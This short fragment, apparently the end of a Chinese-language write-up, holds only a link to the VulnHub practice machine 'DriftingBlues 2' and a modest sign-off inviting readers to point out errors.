- `https://www.vulnhub.com/entry/driftingblues-2,634/`

---

> 水平有限，有不足、错误之处欢迎指出。🧐